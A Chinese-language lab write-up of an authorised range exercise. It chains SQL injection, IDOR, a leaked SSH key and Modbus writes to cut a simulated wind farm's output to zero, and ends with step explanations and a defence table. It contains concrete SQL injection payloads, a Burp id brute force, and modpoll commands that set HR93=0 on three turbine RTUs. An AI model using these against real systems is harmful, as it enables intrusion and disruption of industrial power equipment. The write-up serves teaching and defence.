

# 平原链复盘

> 定位：授权靶场与教学环境的知识整理。文中所有 IP、端口、寄存器、凭据、payload 均取自靶场素材，仅用于讲清漏洞成因与防护方向。

## 一句话概括

一条链跨四个平面：Web 应用层（报表接口）→ 数据库层（SQL 注入）→ 对象授权层（IDOR 拿到 SCADA 备份包）→ 工业协议层（借网关位置用 modpoll 主站写 HR93=0）。前三步是常规 Web 漏洞，最后一步才是工控独有的杀伤面：三台风机限功率归零，场站总有功掉到 0 kW。


## 链路总览

```text
plain-report-portal (10.0.7.10:8080)
  -> 前端源码暴露 /api/reports、/api/reports/export?id=211
  -> SQL 注入 turbine_id=WT-01' ...  (MySQL/MariaDB)
  -> information_schema 枚举 scada_datasource，读到 export_id_range=200-500
  -> IDOR 盲爆 /api/reports/export?id=200-500，命中 id=387
  -> scada_gateway_backup_202607.zip
       gateway.conf / rtu_targets.csv / pointmap.csv / route_note.txt / gateway_diag_key.pem
  -> ssh -i gateway_diag_key.pem plain_diag@10.0.6.8   (communication-system-1)
  -> modpoll Rogue Modbus Master -> WT01/02/03 RTU tcp/502
  -> FC06 写 HR93 = 0  (ActivePowerLimitPercent)
  -> plain-scada-hmi (10.0.8.3:8080) 总有功归零 + 告警 POWER_LIMIT_ZERO
```

## 前置状态

验题前打开 `http://10.0.8.3:8080`（平原 SCADA/HMI）确认业务基线：

- `active_power_kw > 0`，场站总有功正常。
- `alarm = NONE`。
- 三台风机 `RunStatus = RUNNING`，`GridState = ON_GRID`。
- 报表侧 `http://10.0.7.10:8080/` 是正常的"导出中心"，列表里有 `export_id=211 / 315 / 421`，211 属于当前登录的 `student_plain_viewer`。

## 逐步拆解

### 步骤 1：从报表首页拿到接口清单

- 做什么：`curl -s http://10.0.7.10:8080/ | grep -E '/api/reports|export|导出'`，直接在前端 HTML 里读到 `/api/reports`、`/api/reports/export`、`/api/reports/export?id=211`。
- 为什么成立（证据来源）：接口信息写在了前端模板里，页面源码即接口文档。这一步没有漏洞，属信息暴露，但给后面所有步骤定了坐标：注入点在 `/api/reports` 的 `date`/`turbine_id` 参数，越权点在 `/api/reports/export` 的 `id` 参数。
- 命中什么漏洞：敏感信息暴露（接口与内部任务编号硬编码在前端）。
- 学到什么：攻击链的第一步往往是"抄地图"，打漏洞还在后面。前端里出现的一切标识符（endpoint、task id、owner 名）都是可被收集的资产清单。

### 步骤 2：确认 SQL 注入存在（单引号 + 布尔对照）

- 做什么：先塞 `WT-01'`，响应变成 `{"error":"report query failed","trace_id":"plain-rpt-xxxxxxxx"}`；再对比 `WT-01' AND 1=1-- ` 与 `WT-01' AND 1=2-- `，真条件返回 WT-01 报表，假条件 `count=0`。
- 为什么成立（证据来源）：报错说明输入被直接拼进 SQL；真假条件返回差异化，说明该参数进入 `WHERE` 条件，可被布尔表达式控制。`%27` 是 `'` 的 URL 编码，`--` 是注释符，用来吃掉原查询尾部。
- 命中什么漏洞：字符串拼接式 SQL 查询（典型 SQL 注入），未使用参数化查询。
- 学到什么：先用报错定性，再用布尔对照定量。这一步只证明"可控"，没证明"能读数据"。

### 步骤 3：用函数行为判断数据库类型

- 做什么：`SLEEP(3)` 造成约 3 秒延迟，`pg_sleep(3)` 无同等延迟 → 后端是 MySQL/MariaDB。
- 为什么成立（证据来源）：`SLEEP()` 是 MySQL/MariaDB 专有函数，PostgreSQL 走 `pg_sleep()`。用函数行为差异而非报错特征判断库类型，盲注场景下更可靠。
- 命中什么漏洞：无独立漏洞，属于信息收集。
- 学到什么：确认 MySQL 后，下一步的 `information_schema` 元数据枚举路线才成立。

### 步骤 4：确定列数与回显位置

- 做什么：`ORDER BY 5-- ` 正常、`ORDER BY 6-- ` 报错 → 原查询 5 列；再用 `UNION SELECT 'A','B','C',1234,'E'-- ` 把 5 列分别映射到响应字段，得到 `report_id/turbine_id/report_date/active_power_kw/grid_state` 的回显位。
- 为什么成立（证据来源）：`ORDER BY n` 在 n 超过结果集列数时报错，是判断列数的经典手法；`1234` 出现在 `active_power_kw` 位置，证明第 4 列是数字型且可回显。
- 命中什么漏洞：SQL 注入（UNION 注入），且响应中直接回显注入结果。
- 学到什么：列数与类型必须先摸清，否则枚举 `information_schema` 时 `NULL` 填充位置会错位。

### 步骤 5：枚举表名与 `scada_datasource` 字段

- 做什么：`UNION SELECT table_name,NULL,NULL,NULL,NULL FROM information_schema.tables WHERE table_schema=database()-- `，得到 `report_history / report_export / scada_datasource / user_session / sync_job`。再枚举 `scada_datasource` 的列，得到 `id / source_name / driver_type / linked_system / export_id_range`。
- 为什么成立（证据来源）：`information_schema` 是 MySQL/MariaDB 自带的元数据视图，注入点能 `UNION` 就能读。字段名不是猜的，是从 `information_schema.columns` 查出来的。
- 命中什么漏洞：SQL 注入导致数据库结构泄露。
- 学到什么：`scada_datasource` 是整条链的枢纽，把"Web 报表系统"和"SCADA 网关"在数据层关联起来。

### 步骤 6：读出关键数据源记录，拿到 IDOR 的 id 范围（核心转折点）

- 做什么：`UNION SELECT id,source_name,driver_type,linked_system,export_id_range FROM scada_datasource WHERE source_name LIKE '%plain%'-- `，映射到报表字段后得到：

  ```json
  {
    "report_id": "12",
    "turbine_id": "plain_scada_gateway",
    "report_date": "modbus_gateway",
    "active_power_kw": "communication-system-1 / report_export",
    "grid_state": "200-500"
  }
  ```

- 为什么成立（证据来源）：IDOR 的搜索范围 200-500 有明确出处，来自 `scada_datasource.export_id_range = 200-500`；`linked_system = communication-system-1 / report_export` 指明这批导出属于 `report_export` 系统。同时确认了数据源名 `plain_scada_gateway`、驱动类型 `modbus_gateway`。
- 命中什么漏洞：SQL 注入 + 业务元数据泄露（数据源导出区间被当作业务配置明文存储，可通过注入读取）。
- 学到什么：这是全链最重要的一步。盲爆 ID 高效，是因为攻击者先拿到了范围。范围信息本身就是资产，暴露范围等于暴露攻击面。

### 步骤 7：正常导出发现 IDOR 接口

- 做什么：点"导出当前日报"，Network 里看到 `GET /api/reports/export?id=211`，响应头 `Content-Disposition: attachment; filename="plain_daily_report_211.xlsx"`、`X-Export-Owner: student_plain_viewer`、`X-Export-Type: DAILY_REPORT`。
- 为什么成立（证据来源）：接口只按 `id` 取对象，响应头还主动回显 owner 和 type，等于替攻击者给出了区分对象归属的判据。
- 命中什么漏洞：越权访问设计缺陷（下载接口只校验 id 是否存在，不校验归属）。
- 学到什么：`X-Export-Owner` 是攻击者的判定信号源。系统越"友好地"暴露元信息，越容易被自动化筛选。

### 步骤 8：盲爆 id 命中 SCADA 备份（IDOR 落地）

- 做什么：Burp Intruder，Payload type = Numbers，From 200 To 500，Step 1，只把 `id` 设为 payload 位置。响应特征分类：

  ```text
  404                                -> 导出任务不存在
  200 + filename=plain_daily_report  -> 普通日报（自己的）
  200 + Content-Type=application/zip -> 可疑备份包
  200 + X-Export-Owner: scada_sync   -> 不属于当前用户的 SCADA 同步导出
  ```

  命中 `id=387`，返回 `Content-Type: application/zip`、`filename="scada_gateway_backup_202607.zip"`、`X-Export-Owner: scada_sync`、`X-Export-Type: SCADA_BACKUP`。
- 为什么成立（证据来源）：`student_plain_viewer` 只是 low-priv 账号，却能下载 `scada_sync` 生成的导出对象。归属校验缺失是根因，`export_id_range=200-500` 提供了精确的爆破窗口。
- 命中什么漏洞：IDOR（Insecure Direct Object Reference），横向越权。
- 学到什么：IDOR 的利用效率 = 范围精度 × 响应可区分度。范围来自数据库字段，可区分度来自响应头，二者叠加使爆破变成确定性搜索。

### 步骤 9：解压备份，读出网络拓扑与控制点

- 做什么：解压 `scada_gateway_backup_202607.zip`，得到 `gateway.conf`、`rtu_targets.csv`、`pointmap.csv`、`route_note.txt`、`gateway_diag_key.pem`。

  `gateway.conf` 关键内容：

  ```ini
  [gateway]
  name=plain_scada_gateway
  role=communication-system-1
  platform_node=communication-system-1
  platform_ip=10.0.6.8
  [downstream]
  protocol=Modbus TCP
  targets_file=rtu_targets.csv
  [pointmap]
  file=pointmap.csv
  addressing=zero_based_pdu
  write_range=HR90-HR94
  target_control=HR93 ActivePowerLimitPercent
  [diagnostic]
  diag_user=plain_diag
  diag_key=gateway_diag_key.pem
  ```

  `rtu_targets.csv`：`WT-01 -> 10.0.5.6:502`、`WT-02 -> 10.0.5.4:502`、`WT-03 -> 10.0.5.5:502`，`unit_id=1`。

  `route_note.txt`：报表门户 `plain-report-portal` 不能直连三台 RTU 的 tcp/502，只有 `plain_diag@10.0.6.8` 被允许访问。

- 为什么成立（证据来源）：备份包 = 配置 + 拓扑 + 凭据三合一。攻击者不必扫全网：网关地址 10.0.6.8 来自 `platform_ip`，端口 502 来自 `protocol=Modbus TCP`，Unit ID 来自 `rtu_targets.csv`，控制点来自 `target_control=HR93`，防火墙策略来自 `route_note.txt`。
- 命中什么漏洞：敏感配置备份可被低权用户下载（IDOR 的下游后果）；诊断私钥随备份包一起分发。
- 学到什么：这是"备份即攻击手册"的案例。`gateway_diag_key.pem` 的存在意味着权限边界完全由一把可下载的私钥决定。

### 步骤 10：读点表，定位决定成败的寄存器

- 做什么：查看 `pointmap.csv`。遥测只读区 `HR0-HR9`：HR0 ActivePowerKW(0-3000)、HR1 ReactivePowerKVar、HR2 WindSpeed_x10、HR3 WindDirection、HR4 VoltageV、HR5 CurrentA、HR6 TemperatureC、HR7 RunStatus(0 STOPPED/1 RUNNING/2 TRIPPED/3 OFF_GRID)、HR8 GridState(0 OFF_GRID/1 ON_GRID)、HR9 AlarmCode(0 NONE/10 POWER_LIMIT_ZERO/20 REMOTE_STOP/30 TRIP/40 OFF_GRID)。可读写控制区 `HR90-HR94`：HR90 RunCommand、HR91 ManualOverrideEnable、HR92 WindSpeedOverrideX10、HR93 ActivePowerLimitPercent(0-100)、HR94 AlarmReset。
- 为什么成立（证据来源）：`addressing=zero_based_pdu` 说明帧内地址直接用 `register_offset`，HR93 对应 PDU offset 93，modpoll 用 `-0 -r 93`。
- 命中什么漏洞：可写控制点未做来源/角色校验（协议层无鉴权）。
- 学到什么：点表就是攻击面清单。注意：在 Modbus 里没有"权限"概念，`permission=RW` 的意思就是"谁连上来谁都能写"。

### 步骤 11：用诊断私钥 SSH 进入通信系统1

- 做什么：`chmod 600 gateway_diag_key.pem` 后 `ssh -i gateway_diag_key.pem plain_diag@10.0.6.8`。进入后 `whoami`=`plain_diag`、`hostname`=`plain-scada-gateway`、`ip -br addr`=`ens18 10.0.6.8/24`，`ls -la ~` 发现 `modpoll`。
- 为什么成立（证据来源）：用户名 `plain_diag` 与密钥文件都来自备份包，不是猜的。`route_note.txt` 明确写 `allow src=10.0.6.8 dst=10.0.5.4-10.0.5.6 tcp/502`，由此知道这台机器是唯一合法的控制跳板。
- 命中什么漏洞：SSH 私钥最小权限缺失（诊断私钥被低权对象持有者获取）、凭据与配置同包分发。
- 学到什么：这是"横向移动不需要漏洞，只需要凭据"的范例。真正的错误不在 SSH 配置，而是把私钥放进了可被越权下载的备份包。

### 步骤 12：从通信系统1验证 RTU 可达

- 做什么：`nmap -sT -p 502 10.0.5.6 / 10.0.5.4 / 10.0.5.5`，三台均 `502/tcp open modbus`。
- 为什么成立（证据来源）：目标列表来自 `rtu_targets.csv`，端口来自 `gateway.conf`，不是全网扫描。可达性证明 `route_note.txt` 描述的"允许路径"真实存在。
- 命中什么漏洞：网络分区不彻底（网关同时被授权访问多个 RTU）。
- 学到什么：`deny src=any dst=10.0.5.4-10.0.5.6 tcp/502` 这类策略纸面上正确，却把网关变成单点，攻下网关等于攻下三台 RTU。

### 步骤 13：modpoll 读 HR93，建立基线

- 做什么：

  ```bash
  modpoll -m tcp -p 502 -a 1 -0 -r 93 -c 1 -t 4 -1 10.0.5.6
  modpoll -m tcp -p 502 -a 1 -0 -r 93 -c 1 -t 4 -1 10.0.5.4
  modpoll -m tcp -p 502 -a 1 -0 -r 93 -c 1 -t 4 -1 10.0.5.5
  ```

  三台均返回 `[93]: 100`。

- 为什么成立（证据来源）：每个参数都有出处：`-m tcp` 来自 `protocol=Modbus TCP`，`-p 502` 来自 `rtu_targets.csv`，`-a 1` 即 `unit_id=1`，`-0` 对应 `addressing=zero_based_pdu`，`-r 93` 对应 `target_control=HR93`，`-t 4` 表示 16 位保持寄存器（modpoll 用 FC03 读取），`-1` 只轮询一次，适合验题。
- 命中什么漏洞：读操作无任何认证。
- 学到什么：100 本身是业务语义，`ActivePowerLimitPercent = 100%` 即"未限功率"。记录基线值，才能定义"篡改"。

### 步骤 14：Rogue Modbus Master 写 HR93 = 0

- 做什么：同样命令末尾追加写值 `0`，modpoll 输出 `Protocol configuration: MODBUS/TCP, FC6` / `Written 1 reference.`。

  ```bash
  modpoll -m tcp -p 502 -a 1 -0 -r 93 -c 1 -t 4 -1 10.0.5.6 0
  modpoll -m tcp -p 502 -a 1 -0 -r 93 -c 1 -t 4 -1 10.0.5.4 0
  modpoll -m tcp -p 502 -a 1 -0 -r 93 -c 1 -t 4 -1 10.0.5.5 0
  ```

- 为什么成立（证据来源）：`-c 1` 明确"只写 1 个保持寄存器"，促使 modpoll 选择 FC06 Write Single Register；`-0 -r 93` 共同定位 PDU offset 93。每台 RTU 把 HR93 解释为本机 `ActivePowerLimitPercent`，写 0 即"限功率 0%"。只写 WT01 只影响 WT01；三台都写才会让 HMI 上"场站总有功"归零，因为 HMI 是通过通信系统1逐台轮询的。
- 命中什么漏洞：协议层无写保护、无来源校验、无 SBO/双人确认等操作约束。
- 学到什么：Modbus 的攻击是语义级的。写入的是合法值（0 在 0-100 范围内），协议和值域校验都不报错，越界发生在业务语义层。

### 步骤 15：回读确认

- 做什么：重跑读命令，三台 `[93]` 均为 0。
- 为什么成立（证据来源）：写后读回是验证"协议层写入成功"的最低成本手段，排除网络丢包/超时的误判。
- 命中什么漏洞：无。
- 学到什么："HMI 变了"和"寄存器变了"在工控场景要分开验证，否则无法区分协议写入成功还是 SCADA 自身异常。

### 步骤 16：HMI 验证业务影响

- 做什么：回到 `http://10.0.8.3:8080` 观察。
- 为什么成立（证据来源）：HMI 的数据来自通信系统1对三台 RTU 的逐台轮询，寄存器写变后 HMI 必然跟着变，所以 HMI 画面是端到端证据的最终落点。
- 学到什么：HMI 上观察到的具体变化（总有功归零、告警 `POWER_LIMIT_ZERO`、事件记录）见下文「业务影响」。

## 协议落点

- 协议：Modbus TCP，端口 502，Unit ID = 1。
- 功能码：读用 FC03（Read Holding Registers，`-t 4` + `-c 1`），写用 FC06（Write Single Register，`-c 1` + 写值）。
- 落点字段：HR93 / PDU offset 93 = ActivePowerLimitPercent。它决定成败有三条：
  1. 它落在 `permission=RW` 且 `write_range=HR90-HR94` 的可写控制区内，协议层不拦；
  2. 它的语义是"有功出力百分比上限"，0-100 内 0 是合法值，值域校验拦不住；
  3. 它被 HMI 直接映射为场站有功的乘性上限，改它等价于改整个场站出力；HR90/HR91/HR92 做不到（HR90 是 RunCommand 起停，HR91 是手动覆盖开关，HR92 只影响风速上报值）。




- 帧结构与分层位置参见 [工控分层](../_assets/工控分层.svg)。

## 业务影响

HMI 上可观察到的变化：

```text
场站总有功功率 -> 0 kW
ActivePowerLimitPercent: 100 -> 0
三台风机 RunStatus: RUNNING -> LIMITED_STOP / 停机或限功率
卡片颜色由绿转为异常/停机色
告警: POWER_LIMIT_ZERO
事件记录: ActivePowerLimitPercent changed 100% -> 0%
```

## 恢复现场

在通信系统1上向三台 RTU 写 HR94 = 1（`AlarmReset`）：

```bash
modpoll -m tcp -p 502 -a 1 -0 -r 94 -c 1 -t 4 -1 10.0.5.6 1
modpoll -m tcp -p 502 -a 1 -0 -r 94 -c 1 -t 4 -1 10.0.5.4 1
modpoll -m tcp -p 502 -a 1 -0 -r 94 -c 1 -t 4 -1 10.0.5.5 1
```

预期：HR94=1 触发 `AlarmReset`，三台 RTU 恢复 `HR93=100`，HMI 回到 `RUNNING`、`ON_GRID`、总有功 > 0。

注意：若做过遥测伪造演示，还需追加：清 `HR91=0`，并调用校验节点 `POST http://10.0.5.7:8080/api/integrity/recover`。

## 验收标准

```text
[ ] 1. 前置：HMI(10.0.8.3:8080) 显示 active_power_kw>0、alarm=NONE、三台 RUNNING。
[ ] 2. 报表首页 HTML 中可检出 /api/reports 与 /api/reports/export?id=211。
[ ] 3. turbine_id=WT-01' 触发 report query failed；AND 1=1 / AND 1=2 结果差异化。
[ ] 4. SLEEP(3) 有延迟、pg_sleep(3) 无同等延迟，判定 MySQL/MariaDB。
[ ] 5. ORDER BY 5 正常、ORDER BY 6 报错，确认 5 列；UNION 回显 'A','B','C',1234,'E'。
[ ] 6. information_schema 枚举出五张表；scada_datasource 五个字段。
[ ] 7. 读到 plain_scada_gateway / modbus_gateway / communication-system-1 / 200-500。
[ ] 8. /api/reports/export?id=387 返回 application/zip，X-Export-Owner: scada_sync。
[ ] 9. 备份包含 gateway.conf、rtu_targets.csv、pointmap.csv、route_note.txt、gateway_diag_key.pem。
[ ] 10. SSH plain_diag@10.0.6.8 成功；hostname=plain-scada-gateway，地址 10.0.6.8/24。
[ ] 11. nmap 三台 RTU 502/tcp open。
[ ] 12. 写入前 HR93=100；FC06 写 0 后回读三台均为 0。
[ ] 13. HMI 总有功归零、告警 POWER_LIMIT_ZERO、事件记录出现 100% -> 0%。
[ ] 14. HR94=1 后三台恢复 HR93=100，HMI 恢复 RUNNING/ON_GRID。
```

## 安全视角

| 环节 | 真实防护措施 |
| --- | --- |
| 前端接口暴露 | 接口清单不写进前端模板；导出中心按角色动态渲染；移除 HTML 中的任务编号 |
| SQL 注入 | 参数化查询 / 预编译语句；最小权限数据库账号（禁 `information_schema` 无关读）；关闭详细报错，统一错误码 |
| 数据源元数据 | `export_id_range` 这类拓扑/范围配置不应存在业务库明文列；配置与业务数据分库分权 |
| IDOR | 导出对象归属校验：查询必须带 `owner = 当前会话主体`；导出 id 改为不可枚举的随机 UUID；响应头不回显 owner |
| 备份包 | 备份加密存储；备份内容做字段级脱敏；私钥绝不入备份包 |
| SSH 私钥 | 私钥最小权限（仅诊断网段可用 `from=` 限制）；`PermitRootLogin no`；证书 + 短时效代替长期私钥；密钥托管在 KMS/HSM |
| Modbus 写控制 | 网关侧写白名单 + 值域/速率校验；控制指令加来源鉴权（如 IEC 62351 / Secure Modbus）；HR93 类关键设定值加双人确认或 SBO 语义 |
| 网络分区 | 生产区与控制区之间部署工业防火墙，禁止横向 `any -> RTU:502`；网关不应同时持有全部 RTU 可达性 |
| 监控审计 | 对 HR90-HR94 写入做逐笔审计（源 IP、Unit ID、旧值/新值）；HMI 侧对 `ActivePowerLimitPercent` 突变触发高优先级告警 |
| 遥测完整性 | 关键遥测附 HMAC-SHA256 签名（随 HR21-24 上报），校验节点验签；时间戳新鲜度（`TS_MAX_AGE_SEC=10`）、范围/跳变/一致性多维校验 |

> 旁支：靶场另设校验节点（`10.0.5.7:8080`，DTU/安全监测角色，旁路不参与控制），用于演示 `SOURCE_OVERRIDE`（HR91=1 手动覆盖）、`HMAC_MISMATCH`、`RANGE_WIND/RANGE_VOLTAGE`、`RATE_*`、`INCONSISTENT`、`STALE`、`NO_DATA` 等原因码。它不新增写保护，`HR90/HR93/HR94` 原命令照常生效；SCADA HMI 不显示完整性信息，需打开校验节点页面查看。

## 交叉引用

- 寄存器语义与点表：`../02-Modbus/点表映射.md`
- 帧结构与功能码：`../02-Modbus/通信模型.md`
- 分层与分区：`../00-工控基础/分层与分区.md`
- 图示：[攻击链总览](../_assets/攻击链.svg)、[Modbus 帧](../_assets/modbus帧.svg)、[工控分层](../_assets/工控分层.svg)、[设备拓扑](../_assets/工控设备拓扑.svg)

## 素材中的不确定处

- `pointmap.csv` 只给到 `HR0-HR94`，但遥测伪造章节用到 HR95（电压）、HR97/98（发电量 32 位），`gateway.conf` 的 `write_range` 也只写到 `HR90-HR94`。这些寄存器未含在点表内，属点表与演示章节的不一致。
- 校验章节提到 HMAC 签名随 HR21-24 上报，同样不在点表中。
- 演示中 `HR92 WindSpeedOverrideX10` 安全范围标为 `0-300`，伪造命令却写入 `3000`、`3600` 触发 `RANGE_WIND`，属有意越界（用于触发校验），不是笔误。
